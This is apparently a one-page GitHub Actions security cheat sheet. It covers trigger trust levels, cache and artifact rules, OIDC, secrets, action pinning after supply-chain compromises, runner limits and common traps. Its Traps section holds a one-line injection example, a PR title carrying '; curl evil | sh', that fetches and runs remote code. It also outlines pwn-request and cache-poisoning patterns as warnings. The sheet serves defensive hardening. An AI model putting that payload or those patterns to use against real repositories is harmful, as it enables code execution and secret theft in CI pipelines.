


cicd · folio
In one line: An event starts every workflow in .github/workflows/ whose on: matches; its
jobs form a DAG (needs:), each on a fresh runner, running steps in one
workspace. Security is which code runs with which token, secrets and cache: the trigger decides,
permissions: and cache-mode: narrow it, OIDC replaces stored cloud keys, a commit
SHA pins what runs.
Download PDF Print view LaTeX source


Triggers and their trust
| event | workflow + code | secrets · token · cache |
|---|---|---|
push, schedule, workflow_dispatch | the pushed ref; schedule = default branch, ≥5 min | all · as permissions: · read + write |
pull_request (fork) | merge commit refs/pull/N/merge; no run on conflict | none · read-only · own scope; may need approval |
pull_request_target | default branch HEAD, whatever the base | all · write · read-only default |
workflow_run | default branch; ≤3 levels chained | all · write · read-only default |
issue_comment | default branch; anyone can comment | all · write · read-only default |
merge_group | the queue’s temp branch | as push; required by merge queues |
Pwn request + cache poisoning — TanStack, 11 May 2026

actions/checkout v7 refuses fork-PR code in pull_request_target and workflow_run unless allow-unsafe-pr-checkout: true; backported as v6.1.0 / v5.1.0 / v4.4.0 (and v2, v3) — a floating tag got it, an old SHA pin did not; a plain git fetch is never checked. Safe split: build untrusted code under pull_request (no secrets), do the privileged comment or upload in workflow_run, reading its artifacts as data.
Cache and artifacts
- Cache: key ≤512 chars, entries immutable; exact key, then
restore-keysprefixes (newest match). Readable from the current, default and (PR) base branch; a PR’s merge-ref cache only by its re-runs. 10 GB/repo by default (admins raise it; over 10 GB $0.07/GB-month); evicted after 7 days unused (max 90 public, 365 private). cache-mode:per workflow or job —read,write,write-only,none; a called workflow cannot widen it;writeon a low-trust event = warning annotation.- Artifacts: kept 90 days (1–90 public, 1–400 private), immutable;
upload-artifact@v7archive: false= one unzipped file;download-artifact@v8fails on a hash mismatch. Current majors: checkout v7, cache v6.
Concurrency, matrix, data between jobs
- Concurrency: per
groupone running + one pending; a newer run replaces the pending one;cancel-in-progress: truekills the running one too (PRs yes, deploys no).queue: maxkeeps ≤100 pending in order — not withcancel-in-progress. - Matrix: cross product,
includeadds keys or combos,excludedrops; ≤256 jobs/run;fail-fast(default true) cancels siblings;max-parallel. - Job
outputs:≤1 MB/job, 50 MB/run; step summary ≤1 MiB;if:defaults tosuccess();timeout-minutesdefaults to 360.
Reusable workflow vs composite action
reusable (on: workflow_call) | composite (action.yml) | |
|---|---|---|
| called as | a job: uses: o/r/.github/…@sha | a step |
| contains | jobs, own runners | steps, on the caller’s runner |
| secrets | secrets: or inherit (same org) | none — only via inputs |
| logs | every step visible | one collapsed step |
| limits | 10 levels; 50 unique per file | ≤10 nested per workflow |
| caller’s | env not passed; token scopes kept or cut | shares the job’s env |
A hardened deploy job
on: { push: { branches: [main] } }
permissions: { contents: read } # default, every job
concurrency: { group: deploy-prod, cancel-in-progress: false }
jobs:
deploy:
runs-on: ubuntu-24.04
environment: prod # reviewers + env secrets
permissions: { contents: read, id-token: write } # OIDC
cache-mode: none # restore nothing
steps:
- uses: actions/checkout@<40-hex-sha> # v7.0.1
- uses: aws-actions/configure-aws-credentials@<sha>
with: { role-to-assume: arn:aws:iam::123456789012:role/ci,
aws-region: eu-west-1 } # no stored AWS key
- env: { MSG: "${{ github.event.head_commit.message }}" }
run: ./deploy.sh "$MSG" # env var, NOT ${{ }} in scriptGITHUB_TOKEN
Per-job GitHub App installation token, dead when the job ends; new personal repos: read contents + packages. Naming any scope in permissions: sets the rest to none. Its events start no runs — except workflow_dispatch, repository_dispatch, and PRs it opens or pushes to, which wait for approval. 1,000 API req/h/repo.
OIDC — no long-lived cloud keys
id-token: write lets a step fetch a GitHub-signed JWT; the cloud checks aud + sub and returns short-lived creds. sub = repo:O/R:environment:prod, …:ref:refs/heads/main or …:pull_request; repos created, renamed or moved after 15 Jul 2026 get repo:O@123/R@456:…, so a re-registered name no longer matches. Trusting repo:acme/* lets every acme repo assume the role.
Secrets and environments
100 per repo and per environment, 1,000 per org, 48 KB each; none for fork PRs. Masked only verbatim: a JSON blob, base64 or derived value prints in clear — ::add-mask:: it. Environment: ≤6 reviewers, no self-review, wait ≤30 days, branch/tag filter; secrets after approval.
Pinning — a tag is a movable pointer
A pull_request_target PR on spotbugs leaked a PAT in Dec 2024(unverified); then reviewdog/action-setup@v1 was re-pointed (11 Mar 2025), then tj-actions/changed-files (23k+ repos, CVE-2025-30066): its version tags moved to code dumping Runner.Worker memory into the log, public on public repos; SHA pins were untouched. Pin 40-hex SHAs (+ # v4.2.2 for Dependabot / Renovate); org policy can require pins and !block an action even when pinned; immutable releases lock tag + assets; actions.lock (gh actions-lock, technical preview) pins transitive actions. SHA pins get no Dependabot alerts.
Limits and plans
Free / Pro / Team / Enterprise: concurrent jobs 20 / 40 / 60 / 500, of them macOS 5 / 5 / 5 / 50; included minutes 2,000 / 3,000 / 3,000 / 50,000. Run ≤35 days · 50 re-runs · file ≤500 KB · 25 dispatch inputs · 1,500 events/10 s/repo.
Self-hosted runners
Persistent disk, network, credentials: a job can backdoor the next — never on public repos; use JIT/ephemeral runners (one job). Job ≤5 days, queue 24 h; auto-update off and 30 days behind a release = no jobs. The $0.002/min fee due 1 Mar 2026 was postponed.
Traps
run: echo "${{ github.event.pull_request.title }}"is pasted into the script before bash runs: a title"; curl evil | sh #executes. Pass it viaenv:.- No
shell:=bash -e {0}, no pipefail;shell: bashadds it. - Public-repo
schedules stop after 60 days without activity.